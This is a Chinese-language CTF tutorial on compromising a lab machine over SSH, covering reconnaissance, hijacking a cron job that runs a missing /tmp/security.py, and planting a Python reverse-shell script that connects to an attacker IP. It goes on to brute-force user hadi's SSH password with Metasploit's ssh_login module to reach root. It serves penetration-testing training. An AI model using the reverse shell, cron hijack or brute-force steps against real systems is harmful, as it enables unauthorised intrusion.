








# CTF入门课程：P10：SSH服务测试与权限提升

在本节课中，我们将学习如何通过SSH服务渗透靶机，并最终获取root权限以读取flag文件。我们将从信息收集开始，探索提权方法，并实践利用定时任务和暴力破解技术。





## 信息收集与初步探索


上一节我们介绍了如何以普通用户身份登录SSH服务器。本节中，我们来看看如何收集系统信息，为后续的权限提升做准备。



登录后，我们首先确认当前用户并非root。使用`id`命令可以查看用户身份和所属组。



```bash
id
```



接下来，我们可以使用几条命令来查看系统配置信息。

以下是查看系统用户和用户组信息的命令：

*   `cat /etc/passwd`：查看所有用户列表。
*   `cat /etc/group`：查看所有用户组信息。
*   `find / -user [用户名]`：查找属于特定用户的文件。

此外，检查临时目录`/tmp`也很有必要，这里有时会存放可利用的临时文件。

```bash
cd /tmp
ls -la
```

## 深入挖掘：定时任务（Cron Jobs）

在完成基础信息收集后，我们并未发现明显的提权路径。接下来，我们来看看一个在CTF比赛中需要特别关注的文件：`/etc/crontab`。

`/etc/crontab`是系统设置定时执行任务的配置文件，通常需要root权限才能编辑。在CTF中，我们经常通过检查该文件来寻找提权机会。其原理是：如果某个用户（如root）设置了定时任务，但任务指向的可执行文件不存在或权限配置不当，攻击者就可以创建同名文件并写入恶意代码（如反弹shell），当定时任务执行时，就能获得该用户的权限。

首先，我们查看`/etc/crontab`文件的内容。

```bash
cat /etc/crontab
```

在输出中，我们发现了一条由`jim`用户设置的定时任务，它每5分钟执行一次`/tmp/security.py`文件。然而，我们在`/tmp`目录下并未找到这个文件。这为我们提供了机会。

## 利用定时任务获取Shell

既然目标文件不存在，我们就可以创建它。我们需要编写一个Python反弹shell脚本，并将其命名为`security.py`放置在`/tmp`目录下。

以下是反弹shell脚本的核心代码：

```python
#!/usr/bin/env python3
import socket,subprocess,os
s=socket.socket()
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

**代码解释**：
1.  导入必要的模块：`socket`（网络通信）、`subprocess`（执行命令）、`os`（系统操作）。
2.  创建套接字`s`并连接到攻击机的指定端口。
3.  使用`os.dup2()`将标准输入(0)、输出(1)、错误(2)重定向到套接字`s`。
4.  调用`/bin/bash -i`启动一个交互式shell，其输入输出将通过套接字传输。

在攻击机（如Kali）上，我们需要使用`netcat`（nc）监听一个端口，等待靶机连接。

```bash
nc -lvp 4445
```

**参数解释**：
*   `-l`：监听模式。
*   `-v`：显示详细信息。
*   `-p`：指定监听端口。

在靶机上，我们将编写好的脚本移动到`/tmp/security.py`，并赋予其执行权限。

```bash
mv /tmp/1.py /tmp/security.py
chmod +x /tmp/security.py
```

等待定时任务执行（最多5分钟），攻击机的`nc`监听端就会收到一个来自`jim`用户的shell连接。

## 权限提升与最终突破

通过定时任务，我们获得了`jim`用户的shell。然而，`jim`仍然是一个普通用户，没有root权限。我们尝试使用`su`命令切换用户，但不知道`root`或其他高权限用户的密码。

此时，我们回顾最初信息收集时发现的用户列表，还有一个用户`hadi`尚未尝试。我们决定对`hadi`用户的SSH密码进行暴力破解。

以下是使用`metasploit`框架进行SSH暴力破解的步骤：

1.  首先，使用工具（如`CUPP`）生成针对`hadi`的个性化密码字典。
2.  启动`msfconsole`。
3.  使用SSH登录扫描模块。
    ```bash
    use auxiliary/scanner/ssh/ssh_login
    ```
4.  设置必要的参数。
    ```bash
    set RHOSTS 靶机IP
    set USERNAME hadi
    set PASS_FILE /path/to/password_list.txt
    set THREADS 5
    set VERBOSE true
    ```
5.  运行模块开始破解。
    ```bash
    run
    ```

破解成功后，我们获得了`hadi`的密码（例如`hadi123`）。使用该密码通过SSH登录或直接在获得的会话中切换用户。

```bash
ssh hadi@靶机IP
# 输入密码 hadi123
```

登录后，我们发现直接获得了`root`权限（这可能是因为`hadi`用户被配置了`sudo`免密或属于`wheel`组等）。确认权限：

```bash
whoami
# 输出：root
id
# 输出：uid=0(root) gid=0(root) groups=0(root)
```

## 获取Flag



拥有root权限后，最后一步就是寻找并读取flag文件。通常flag位于根目录或`/root`目录下。



```bash
cd /
ls
# 或
cd /root
ls
cat flag.txt
# 或
cat /flag
```

成功读取到flag内容，挑战完成。

## 总结

本节课中我们一起学习了完整的SSH服务渗透与提权流程。

1.  **信息收集**：使用`id`, `cat /etc/passwd`, `ls /tmp`等命令了解系统环境。
2.  **挖掘定时任务**：检查`/etc/crontab`文件，发现配置漏洞（任务文件不存在）。
3.  **利用漏洞**：编写反弹shell脚本，利用定时任务执行，获取初始立足点（`jim`用户shell）。
4.  **横向移动/提权**：当初始用户权限不足时，转向其他用户（`hadi`）。通过暴力破解获得其SSH密码。
5.  **最终突破**：使用`hadi`凭证登录，意外获得root权限，最终读取flag。



关键要点：在CTF中，`/tmp`目录和`/etc/crontab`定时任务文件是需要重点检查的位置，它们常常是权限提升的突破口。同时，当一种方法行不通时（如普通用户无法提权），应尝试信息收集中发现的其他用户（如暴力破解）。